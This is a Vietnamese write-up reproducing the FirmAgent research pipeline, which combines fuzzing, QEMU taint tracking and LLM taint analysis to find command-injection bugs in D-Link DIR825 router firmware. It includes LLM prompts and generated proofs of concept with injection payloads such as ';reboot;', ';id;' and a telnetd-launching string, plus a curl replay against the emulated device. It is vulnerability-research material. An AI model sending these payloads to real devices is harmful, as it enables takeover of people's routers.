


# Tổng quan

Ở trong phần này, bài báo đề xuất 1 mô hình giúp phân tích, khai thác, và xây dựng cách khai thác lỗ hổng firmware một cách khoa học.

Nguồn bài báo được đính kèm và nguồn source cho hệ thống dưới đây: https://github.com/vul337/FirmAgent

# Đặt vấn đề

## Static analysis

Vấn đề của static analysis là LLM có thể nhìn để đọc source code nhưng có thể suy luận sai. Nguyên do là bởi vì trong firmware thật, thì llm sẽ không biết được hàm nào thật sự nhận input từ user, hàm nào chỉ xử lí chuỗi nội bộ, biến nào là bí danh của biến nào, các hàm có lọc input an toàn không, pointer trỏ tới hàm nào. 

Nguyên do là các công cụ thường chỉ dựa vào keyword/string để đoán source

## Dynamic analysis

Trong dynamic thì fuzzing gửi request thật VD : GET /password... nhưng mà nó khó có thể vượt qua được các điều kiện logic. VD như nó chèn thêm 1 số cái điều kiện thêm vào thì không chạy được. Như vậy fuzzing rất giỏi trong việc tìm được điểm vào cho dữ liệu người dùng nhưng không tốt trong việc đi sâu tới hàm nguy hiểm.

# Ý tưởng của bài báo

Bài sẽ tận dụng được điểm mạnh của từng bên:
+ Fuzzing : Xác định được input point thật trong runtime
+ QEMU instrumentation: Theo dõi memory taint và call khi chạy
+ Static analysis/IDA : Lấy decompiled code, handler, keyword
+ LLM dùng để đọc code, lần theo đường đi của dữ liệu xem có thể tới hàm nguy hiểm không.

Như vậy công cụ của bài sẽ làm:

```

Fuzzing gửi input
        ↓
xem input thật sự đi vào đoạn code nào
        ↓
ghi lại điểm đó
        ↓
dùng LLM phân tích tiếp từ điểm đó đến hàm nguy hiểm
        ↓
nếu có lỗi thì sinh PoC

```

# Các bước của FirmAgent

```
[1] Firmware
     ↓
[2] Pre-fuzzing Analysis
     ↓
[3] Rehosting Image
     ↓
[4] Runtime Monitoring + Fuzzing
     ↓
[5] Csource
     ↓
[6] Potential Paths
     ↓
[7] Taint Propagation Agent
     ↓
[8] Alert
     ↓
[9] PoC Generation Agent
     ↓
[10] PoC
```

## Bước 1 : Firmware

Khi nhận được 1 file bin firmware, thì trong file firmware thường có :
+ hệ thống các file
+ binary của web : httpd/boa/lightpd
+ file cấu hình
+ file HTML,JS giao diện web
+ Thư viện .so

Mục tiêu là extract file firmware và cần tìm được chương trình web : 
+ /sbin/httpd
+ /usr/sbin/httpd
+ /bin/boa
+ /usr/sbin/lighttpd
  
Những binary kia là những mục tiêu chính

## Bước 2: Pre-Fuzzing Analysis

Nhiệm vụ là tìm ra các dịch vụ, các hàm nguy hiểm sink và tính khoảng cách

### Tìm các dịch vụ : Các URL/API cần test

Trong firmware web thường có nhiều đường dẫn xử lý các chức năng. VD : 
```
/login.cig
/apply.cgi
/rehost.cgi
/reboot.cgi
```

Mỗi đường dẫn tương ứng 1 đoạn code. Và Khi ta có những đường dẫn này thì có thể giúp cho fuzzer biết là phải request vào đâu

Có thể lấy các đường dẫn trên từ việc phân tích binary từ các chuỗi hardcoded trong binary, file HTML/Java script,...

VD trong binary có chuỗi "NTPSyncWithHost.cgi" và gần đó có bảng xử lý
```
{

    "NTPSyncWithHost.cgi",
    sub_F934
}
```
Thì có thể hiểu là URL : 
NTPSyncWithHost.cgi

Hàm xử lý: sub_F934

Kết quả của phần này là có danh sách các API/URL:

```
{
  "api_endpoints": [
    "/login.cgi",
    "/apply.cgi",
    "/goform/setSysAdm",
    "/NTPSyncWithHost.cgi"
  ]
}
```

Danh sách này được fuzzer dùng để gửi request.



### Tìm tham số đầu vào

URL là vẫn chưa đủ, ta cần biết mỗi URL nhận tham số đầu vào như nào

VD :

```
POST /goform/setSysAdm HTTP/1.1

username=admin&password=123456
```

Tham số là username và password.

Như vậy là nếu fuzzer gửi sai tên tham số thì sẽ không thể đi vào được

Tham số có thể suy ra từ code, ví dụ như :

```
websGetvar(req, "username", buf, 128);
websGetvar(req, "deviceName", name, 2048);
char *key = "ipaddr";
websGetvar(req, key, buf, 64);
```

Kết quả của bước này là danh sách các tham số :

```
{
  "para": [
    "username",
    "password",
    "deviceName",
    "ipaddr",
    "host",
    "cmd"
  ]
}
```

Thì format của nó kết hợp với URL sẽ ra dạng như này

```
{
  "api_endpoints": [
    "/apply.cgi"
  ],
  "para": [
    "username",
    "cmd",
    "action"
  ]
}
```

### Tìm vùng code nguy hiểm - Sink

Một số hàm dùng sai có thể gây nguy hiểm như :

```
system(cmd)
strcpy(dst,input)
```

Một số hàm nguy hiểm thường gặp:

```
system
popen
execve
strcpy
sprintf
strcat
memcpy
```

Trong quá trình này LLM sẽ phân tích những hàm mà nó gặp phải trên con đường tới hàm sink nguy hiểm.

Trong phần này, có 1 phần tính distance, nghĩa là khoảng cách từ 1 đoạn code tới hàm nguy hiểm

Cụ thể distance sẽ được tính như sau.

Quá trình bên trên, LLM cũng sẽ phân tích và cung cấp cho ta những phần gọi là địa chỉ của các hàm trên con đường tới sink. Và địa chỉ này sẽ được lưu ở trong file sink_scope_addr.txt và mỗi cái con đường sẽ lưu dưới dạng 1 range kiểu như này :

```
0xSTART..0xEND
```



Với mỗi con đường thì nó sẽ tạo ra 1 cái dạng đồ thị nhưng mà ở dạng code kiểu như này :

```
node = START, START+4, START+8, ... , END
mặc định block_step = 4
```

Chi phí mỗi cạnh cho là như nhau

Dùng thuật toán Dijkstra để tính số cạnh ngắn nhất từ node tới sink

Ở đoạn này nó sẽ tính khá phức tạp, cụ thể nó sẽ tính khoảng cách từ điểm hiện tại tới cái điểm ban đầu của con đường gọi là độ sâu và tính khoảng cách từ điểm hiện tại tới cái sink là điểm đích. Và dựa trên đó sẽ cho ra công thức tính điểm xem con đường có ok không

Cụ thể công thức như sau :

```
score = depth + w * nearest_distance
```

Trong đó cái w kia là hệ số cân bằng và cũng được tính theo công thức :

```
w = min(round(total_edges_in_cfg / total_indirect_edges, 3), 10)
```

Ở đoạn này công thức cũng hơi khó hiểu, theo em hiểu, thì cái total edge kia là tổng số cạnh trong đồ thị. còn cái total indirect kia cũng là tổng số cạnh, nhưng mà không trực tiếp.

Vd :
```
void A()

int main()
{
    A()
}
```

Thì cái trên là direct nghĩa là trực tiếp gọi

Còn như này là indirect

```
void A()
void B()

int main()
{
    void (*fp)
    if(x)
    {
        fp = B
    }
    else
    {
        fp = C
    }
    fp()
}
```
Nghĩa là nó không gọi trực tiếp. Đoạn này thì em cũng hơi mơ hồ.

Tóm lại là nó sẽ tính bằng code distance.py và tính ra cái score. Dựa trên cái score này thì sẽ tính xem fuzzer vào cái nào là ưu tiên trước.

Ở phần tính distance.py này thì em để chạy ở server vì khá tốn ram

### Tổng kết bước 2

Sau bước 2 thì sẽ có 

```
API/URL cần fuzz
tham số cần fuzz
hàm nguy hiểm
vùng code cần theo dõi
điểm ưu tiên cho fuzzer
decompiled code để LLM dùng
```

Có thể coi như có 1 tấm bản đồ cho fuzzer

## Bước 3:  Rehosting Image

Bước này sẽ rehost file firmware trong môi trường giả lập

Và 1 file firmware chạy thật cần có :

```
CPU riêng
filesystem riêng
NVRAM
network interface
device node
script khởi động
kernel behavior riêng
```

Bước này em làm khá mất thời gian, sau phải gọi Codex để nó tự xử lí thì ok hơn. 

Sau khi xong thì web service có thể chạy lên

## Bước 4 : Runtime Monitoring

Bước này sẽ theo dõi chương trình đang chạy.

Thì ở bước này dùng QEMU để theo dõi hành vi chương trình. Cụ thể nó sẽ theo dõi dựa trên:
+ Dictionary : dựa trên các tham số và api từ Prefuzzing, sẽ giúp cho fuzzer tạo các request
    + Ví dụ :
    ```
    GET /apply.cgi?username=TAINTTAG
    GET /apply.cgi?password=TAINTTAG
    GET /apply.cgi?deviceName=TAINTTAG
    GET /apply.cgi?ipaddr=TAINTTAG
    ```
    + Cũng có thể dựa vào cái distance score vì nếu request A gần sink hơn thì A đáng ưu tiên hơn
+ Memory Taint : Kiểm tra xem dữ liệu mà fuzzer vào xem có xuất hiện trong bộ nhớ chương trình không
  + VD nếu ta thấy chương trình xử lý :
     ```
        websGetvar(req, "deviceName", name, 2048);
    ```
    Thì trong bộ nhớ biến name sẽ chứa TAINTAG, như vậy là đây là cơ sở tạo Csource
+ Indirect Call : nghĩa là trong static analysis có thể không biết hàm này gọi tới hàm nào thì chạy thật có thể quan sát nói nhảy đến đâu

## Bước 5 : Fuzzing

Fuzzing sẽ chạy như này :

```
python FuzzingRecord/Fuzzer.py \
  --json-file Pre_fuzzing.json \
  --delay 0.5 \
  --host {target_ip_or_domain}
```
    
code fuzz thì có trong repo của tác giả

Fuzzing sẽ gửi nhiều request tới firmware : 

```
GET /apply.cgi?username=TAINTTAG
GET /apply.cgi?password=TAINTTAG
GET /apply.cgi?deviceName=TAINTTAG
POST /goform/setSysAdm
username=TAINTTAG&password=123456
```
Thì lúc này trong phần monitoring bên trên sẽ ghi lại log

```
request đã gửi
response nhận được
request nào làm chương trình đi vào vùng đáng chú ý
request nào tạo ra lỗi
request nào chứa input đi tới vùng nguy hiểm
```

Kết quả của bước này sẽ là tạo ra log của quá trình fuzzing cho cái phần monitoring bên trên, cụ thể nó là 2 file, 1 file là qemu_taint.log là log do monitoring bên trên tạo ra, 1 file là result.json do fuzzer tạo ra.

1 phần File resul.json :

```
  {
    "api_url": "apc_client_pin.cgi",
    "method": "POST",
    "taint_param": "Encryption",
    "taint_tag": "TAINTTAG",
    "post_payload": {
      "html_response_page": "",
      "html_response_message": "",
      "html_response_return_page": "",
      "reboot_type": "",
      "page_type": "",
      "ipv6_wan_proto": "",
      "countdown_time": "",
      "html_response_lang": "",
      "language": "",
      "revoke_mac": "",
      "revoke_ip": "",
      "ping_ipaddr": "",
      "ping6_ipaddr": "",
      "wps_pin": "",
      "wps_sta_enrollee_pin": "",
      "ntp_server": "",
      "file": "",
      "date": "",
      "dns_query_name": "",
      "login_pass": "",
      "login_name": "",
      "graph_id": "",
      "graph_code": "",
      "name": "",
      "value": "",
      "value_type": "",
      "RadioID": "",
      "Enabled": "",
      "Type": "",
      "Encryption": "TAINTTAG"
    },
    "response": {
      "error": "('Connection aborted.', RemoteDisconnected('Remote end closed connection without response'))",
      "status_code": null,
      "response_time": null
    },
    "analysis": {
      "potential_issue": true,
      "issue_type": "RequestError",
      "evidence": [
        "Request error: ('Connection aborted.', RemoteDisconnected('Remote end closed connection without response'))"
      ]
    }
  }
```

1 phần file qemu_taint.log :

```
host mmap_min_addr=0x10000
Locating guest address space @ 0x696f7000
page layout changed following target_mmap
start    end      size     prot
00400000-110f1000 10cf1000 ---
page layout changed following target_mmap
start    end      size     prot
00400000-0047c000 0007c000 r-x
0047c000-110f1000 10c75000 ---
page layout changed following target_mmap
start    end      size     prot
00400000-0047c000 0007c000 r-x
0047c000-10000000 0fb84000 ---
10000000-10005000 00005000 rw-
10005000-110f1000 010ec000 ---
page layout changed following target_mmap
start    end      size     prot
00400000-0047c000 0007c000 r-x
0047c000-10000000 0fb84000 ---
10000000-100f1000 000f1000 rw-
100f1000-110f1000 01000000 ---
40000000-40801000 00801000 rw-
page layout changed following target_mmap
start    end      size     prot
00400000-0047c000 0007c000 r-x
0047c000-10000000 0fb84000 ---
10000000-100f1000 000f1000 rw-
100f1000-110f1000 01000000 ---
3ffbb000-40000000 00045000 ---
40000000-40001000 00001000 ---
40001000-40801000 00800000 rw-
page layout changed following target_mmap
start    end      size     prot
00400000-0047c000 0007c000 r-x
0047c000-10000000 0fb84000 ---
10000000-100f1000 000f1000 rw-
100f1000-110f1000 01000000 ---
3ffbb000-3ffc0000 00005000 r-x
3ffc0000-40000000 00040000 ---
40000000-40001000 00001000 ---
40001000-40801000 00800000 rw-
page layout changed following target_mmap
start    end      size     prot
00400000-0047c000 0007c000 r-x
0047c000-10000000 0fb84000 ---
10000000-100f1000 000f1000 rw-
100f1000-110f1000 01000000 ---
3ffbb000-3ffc0000 00005000 r-x
3ffc0000-3ffff000 0003f000 ---
3ffff000-40000000 00001000 rw-
40000000-40001000 00001000 ---
40001000-40801000 00800000 rw-
guest_base  0x696f7000
page layout changed following binary load
start    end      size     prot
00400000-0047c000 0007c000 r-x
0047c000-10000000 0fb84000 ---
10000000-100f1000 000f1000 rw-
3ffbb000-3ffc0000 00005000 r-x
3ffc0000-3ffff000 0003f000 ---
3ffff000-40000000 00001000 rw-
40000000-40001000 00001000 ---
40001000-40801000 00800000 rw-
start_brk   0x00000000
end_code    0x0047bca4
start_code  0x00400000
start_data  0x10000000
end_data    0x100045ec
start_stack 0x40800970
brk         0x100f0b50
entry       0x3ffbba90
argv_start  0x40800974
env_start   0x4080097c
auxv_start  0x408009ec
Trace 0: 0x7f5c6c0000c0 [00000000/3ffbba90/0xa2] 
Trace 0: 0x7f5c6c0001c0 [00000000/3ffbba9c/0xa2] 
Trace 0: 0x7f5c6c000340 [00000000/3ffbbacc/0xa2] 
Trace 0: 0x7f5c6c000480 [00000000/3ffbf16c/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2] 
Trace 0: 0x7f5c6c000780 [00000000/3ffbf1b4/0xa2] 
Trace 0: 0x7f5c6c000680 [00000000/3ffbf1bc/0xa2
```

## Bước 6 : CSource

Csource có thể hiểu ở đây nghĩa là tác giả quy ước gọi nó vậy, ở đây tác giả gọi nó là điểm input thật được xác nhật bằng fuzzing bên trên

VD fuzzer gửi :

```
GET /set.cgi?deviceName=TAINT123
```

Thì ở đây nếu khi firmware chạy mà thấy TAINT123 xuất hiện trong vùng xử lý của chương trình thì chứng tỏ deviceName thật sự đi vào chương trình. Và điểm đó được ghi lại là Csource. Địa chỉ đó có dạng kiểu như này __0x401000__. Và request tương ứng như bên trên

Và csource này được xây dựng và lưu trong 1 file tên là source.json. File này sẽ được xây dựng dựa trên qemu_taint.log và result.json. Cụ thể, nó đọc qemu_taint.log để lấy địa chỉ, ưu tiên những địa chỉ mà có kiểu dạng TAINTED hay TAINTTAG, nghĩa là có cái tham số truyền vào. Nó sẽ regex để lọc địa chỉ ra. Tương ứng, trong result.json, nó sẽ trích ra __API_URL__, __METHOD__, __POST_PAYLOAD__. Và sẽ xuất ra file Source.json. Có thể để file này ở 2 dạng, 1 là address-list dạng kiểu :

```
["0x401000", "0x4023a4"]
```

Hoặc là để kiểu này thì nhìn tường minh hơn :

```
{
  "sources": [
    {
      "address": "0x401000",
      "reachable_testcase": {
        "api_url": "/apply.cgi",
        "method": "POST",
        "post_payload": {
          "username": "TAINTTAG"
        }
      }
    }
  ]
}
```

## Bước 7 : Potential Paths

Ở bước này là ta sẽ có được những đường đi từ input người dùng tới hàm nguy hiểm 

Bước này chỉ tượng trưng thôi. Vd 1 đường đi có thể như này 

```
deviceName trong HTTP request
   ↓
hàm lấy tham số
   ↓
biến name
   ↓
hàm ghép chuỗi command
   ↓
system()
```

Thì bên trên là 1 command injection

## Bước 8 : Agent phân tích Taint

Cơ bản là bước này, tác giả cung cấp 1 file code LLMTaint.py, code này sẽ dùng nguồn là Source.json, danh sách hàm nguy hiểm từ prefuzzing, call graph, những con đường nghi ngờ để prompt LLM, LLM sẽ xác định lại :
```
Dữ liệu user có đi tới hàm nguy hiểm không?
Trên đường đi có kiểm tra/lọc input không?
Có giới hạn độ dài không?
Có copy vào buffer nhỏ không?
Có ghép vào lệnh system không?
Có điều kiện đặc biệt nào cần thỏa không?
```

Ví dụ :

```c
char name[256];
char cmd[512];

websGetvar(req, "deviceName", name, 256);
sprintf(cmd, "ping %s", name);
system(cmd);
```

LLM sẽ suy luận 

```
deviceName là input người dùng
name nhận deviceName
cmd được tạo từ name
cmd đưa vào system()
không thấy lọc ký tự nguy hiểm
có khả năng command injection
```

1 Prompt LLM sẽ dạng như này :

```
aintanalysis - DEBUG - 
-----------------A potential path has analyzed-----------------------


Taintanalysis - DEBUG - taint analysis prompt:
Decompiled code with sources and sinks across the call chain:
// Function at 0x41a58c (source function)
void __fastcall set_basic_api(FILE *a1)
{
  char *v1; // $s4
  char **v2; // $s0
  int v3; // $s1
  const char *cgi; // $a0
  void (*v5)(void); // $t9
  int *v6; // $s3
  int *v7; // $a0
  int v8; // $a3
  int v9; // $t1
  int v10; // $a2
  int v11; // $t0
  int v12; // $t2
  char *v13; // $s0
  char *v14; // $s2
  const char *v15; // $s1
  char v16[1024]; // [sp+28h] [-418h] BYREF
  int v17; // [sp+428h] [-18h] BYREF
  int v18; // [sp+42Ch] [-14h] BYREF
  int v19; // [sp+430h] [-10h] BYREF
  int v20; // [sp+434h] [-Ch] BYREF
  int v21; // [sp+438h] [-8h] BYREF
  int v22; // [sp+43Ch] [-4h] BYREF

  memset(v16, 0, sizeof(v16));
  v21 = 2006;
  v20 = 12;
  v17 = 12;
  v18 = 12;
  v22 = 4;
  v19 = 24;
  v1 = (char *)malloc(0x1388u);
  if ( v1 )
  {
    v2 = wepkey_info;
    v3 = 22;
    g_ASCII_flag = 0;
    g_temp_ASCII_flag = 0;
    a_ASCII_flag = 0;
    do
    {
      while ( 1 )
      {
        --v3;
        cgi = (const char *)get_cgi((int)*v2);
        if ( cgi )
        {
          if ( !strcmp(cgi, v2[1]) )
            break;
        }
        v2 += 3;
        if ( v3 < 0 )
          goto LABEL_7;
      }
      v5 = (void (*)(void))v2[2];
      v2 += 3;
      v5();
    }
    while ( v3 >= 0 );
LABEL_7:
    v6 = (int *)ui_to_nvram;
    v7 = (int *)p_wlan_wep_flag_info;
    v8 = g_wep64_flag;
    v9 = a_ASCII_flag;
    v10 = g_wep128_flag;
    v11 = g_ASCII_flag;
    v12 = g_temp_ASCII_flag;
    *((_DWORD *)p_wlan_wep_flag_info + 5) = g_wep152_flag;
    *v7 = v11;
    v7[1] = v9;
    v7[2] = v12;
    v7[3] = v8;
    v7[4] = v10;
    if ( ui_to_nvram < &list_handlers )
    {
      do
      {
        v14 = (char *)get_cgi(*v6);
        if ( !v14 )
          goto LABEL_18;
        v15 = (const char *)*v6;
        if ( !strcmp((const char *)*v6, "system_time") )
        {
          sscanf(v14, "%d/%d/%d/%d/%d/%d", &v21, &v22, &v17, &v18, &v19, &v20);
          sprintf(v14, "%02d%02d%02d%02d%04d", v22, v17, v18, v19, v21);
          system("date -s %s ");


Sources: (0x41a5e0, memset(v16, 0, sizeof(v16));), (0x41a624, v1 = (char *)malloc(0x1388u);), (0x41a62c, v2 = wepkey_info;), (0x41a634, v3 = 22;), (0x41a63c, g_temp_ASCII_flag = 0;), (0x41a644, a_ASCII_flag = 0;), (0x41a658, cgi = (const char *)get_cgi((int)*v2);), (0x41a68c, v5 = (void (*)(void))v2[2];), (0x41a6a4, while ( v3 >= 0 );), (0x41a6c0, v8 = g_wep64_flag;), (0x41a6d8, v12 = g_temp_ASCII_flag;), (0x41a6f4, v7[4] = v10;), (0x41a828, v14 = (char *)get_cgi(*v6);)
Sink: ('0x41a8e0', '          system("date -s %s ");')
Please perform taint analysis only at this stage.
Use the decompiled code and the reachable test case from fuzzing only to judge whether external input can propagate from the identified source to the sink.
Consider taint aliasing during the analysis.
If taint propagation can be directly determined and cause a vulnerability, report alerts in the following format:
[('alert', source_addr, sink_addr), ...]
If no taint propagation is detected, return [].
Do not generate a PoC packet in this stage.


Taintanalysis - DEBUG - COT result

```

Kết quả thì nó ra phản hồi :

```
Alert
```

Đoạn này thì tùy chỉnh prompt LLM có thể của em nó không giống của tác giả lắm :<

Result :

```
Taintanalysis - DEBUG - taint analysis result:
To perform the taint analysis, we track the flow of external input from the identified sources to the sink.

1.  **Source Identification**: The source at `0x41a828` is `v14 = (char *)get_cgi(*v6);`. The `get_cgi` function is a common source of external input in CGI-based binaries, as it retrieves values from user-provided parameters (in this case, presumably the `system_time` parameter).

2.  **Taint Propagation Path**:
    *   The variable `v14` receives tainted data from `get_cgi(*v6)` when `*v6` matches `"system_time"`.
    *   The tainted data in `v14` is then used as the source for `sscanf` at `0x41a8a4`: `sscanf(v14, "%d/%d/%d/%d/%d/%d", &v21, &v22, &v17, &v18, &v19, &v20);`. This propagates the taint to the stack variables `v21, v22, v17, v18, v19, v20`.
    *   These stack variables are then used in `sprintf` at `0x41a8c8`: `sprintf(v14, "%02d%02d%02d%02d%04d", v22, v17, v18, v19, v21);`. Although the format string `%02d` effectively restricts the output to integers, the data in `v14` is still derived from external input.
    *   Finally, the `system` call at `0x41a8e0` is executed. The decompiled code shows `system("date -s %s ");`. In many MIPS decompilations, this representation indicates a call where the argument is a formatted string or a buffer that was just prepared. Given the preceding `sprintf` into `v14`, it is highly probable that `v14` (the formatted date string) is used as an argument for the command executed by `system`.

3.  **Vulnerability Determination**: While the use of `sscanf` and `sprintf` with integer format specifiers (`%d`, `%02d`) provides a level of sanitization against traditional shell metacharacters (like `;`, `|`, `` ` ``), the flow from user-controlled CGI input directly into a command execution sink (`system`) is a significant security risk. In many similar firmware vulnerabilities, such paths are exploitable if the sanitization can be bypassed or if the decompiler has misrepresented a more direct flow (e.g., if the `system` call used the original `v14` buffer before or instead of the sanitized version).

Given the direct propagation from the source `0x41a828` to the sink `0x41a8e0`, we report the alert.

[('alert', '0x41a828', '0x41a8e0')]
```


## Bước 9 : Alert

LLM sẽ phản hồi __Alert__ nếu nghi ngờ lỗ hổng và phản hồi lại cả PoC. Cụ thể dạng như này

```
[('0x412fac', '0x4131f4')]
POC: {"api_url": "/goform/sub_412F0C", "method": "POST", "post_payload": {"wps_pin": "';reboot'", "html_response_page": "index.asp"}}

[('0x4132cc', '0x413548'), ('0x4132cc', '0x41358c')]
POC: {"api_url": "/apply.cgi", "method": "POST", "post_payload": {"wps_sta_enrollee_pin": "12345678';ls;'", "html_response_page": "apply.cgi"}}

[('0x413828', '0x41388c')]
POC: {"api_url": "/cgi-bin/ntp_sync.cgi?ntp_server=;id;", "method": "GET", "post_payload": {}}

[('0x415e04', '0x415e60')]
POC: {"api_url": "/?date=;ls;", "method": "GET", "post_payload": {}}

[('0x41824c', '0x41839c'), ('0x418278', '0x41839c')]
POC: {"api_url": "/apply.cgi", "method": "POST", "post_payload": {"html_response_page": ";reboot;", "dns_query_name": ";reboot;", "html_response_return_page": "index.asp", "countdown_time": "5"}}

[('0x410240', '0x410378')]
POC: {"api_url": "/goform/WriteFacTest", "method": "POST", "post_payload": {"sn": ";ls;"}}

[('0x4184e8', '0x42d190'), ('0x4184e8', '0x42d1c8'), ('0x4184e8', '0x42d25c'), ('0x4184e8', '0x42d27c')]
POC: {"api_url": "/apply.cgi", "method": "POST", "post_payload": {"html_response_page": ";ls;"}}

[('0x454890', '0x42ac7c')]
POC: {"api_url": "/cgi-bin/ajax.cgi", "method": "GET", "post_payload": {"action": "16"}}

[('0x43653c', '0x426184')]
None

Send 37 prompts
```

## Bước 10 : LLM tạo PoC

Thì ở response của LLM ở bước bên trên nó cũng tạo sẵn cho ta PoC. Cụ thể là sẽ tạo cho ta request để kiểm chứng :

```
GET /apply.cgi?deviceName=TAINTTAG HTTP/1.1
```

Dạng dạng như vậy

```
{"source":"0x412fac","sinks":["0x4131f4"],"handler":"wps_pin","api_url":"/goform/sub_412F0C","method":"POST","post_payload":{"html_response_page":"index.html","wps_pin":"x';reboot;'"}} 
```
và tổng hợp các PoC cũng lưu trong 1 file : final_pocs.jsonl

## Bước 11 : Kiểm chứng lại

Bước này thì ta cần kiểm chứng lại các PoC trên xem có chuẩn không, có đúng lỗ hổng không.

Cụ thể là lấy PoC từ final_pocs.jsonl để request lại 1 lần nữa vào cái firmware rehost

Cụ thể là LLM nó cho ta 1 cái request kiểu hơi mờ, thì đoạn này codex chỉnh giúp em, nó sẽ request như này :

```
curl --max-time 8 -s --interface 192.168.0.2 \
  -X POST http://192.168.0.1/set_sta_enrollee_pin.cgi \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'html_response_page=do_wps_save.asp&wps_sta_enrollee_pin=12345678%27%3Becho%20WPS2%20%3E%2Ftmp%2Freplay_wps_marker2%3B%23'
```

Cơ bản là llm nó chỉ trả PoC kiểu này : __12345678';telnetd & '__ Thì codex thay đoạn đấy bằng tạo 1 chuỗi rồi cho vào 1 file tự tạo ra bất kì. Sau đó quay lại cái container rehost, đọc xem có chuỗi đó không. Nếu ra thì chắc là lỗ hổng rồi.

```
docker exec debug_gh_rehosted_1 sh -lc 'cat /fs/tmp/replay_wps_marker2'
```

Ra chuỗi __WPS__

# Kết quả thực nghiệm

Ở trong phần này, em mới test thử pipeline hệ thống của tác giả trên 1 firmware DIR825 của hãng dlink. Cụ thể kết quả :

```
37 prompts taint đã gửi.
9 candidate findings ở stage LLM taint.
14 tuple-level validations.
4 tuples được xác nhận là vuln.
10 tuples bị loại là false positive.
3 handler độc lập có vấn đề.
2 handler đã được runtime replay xác nhận bằng marker file trên rehost thật.
```

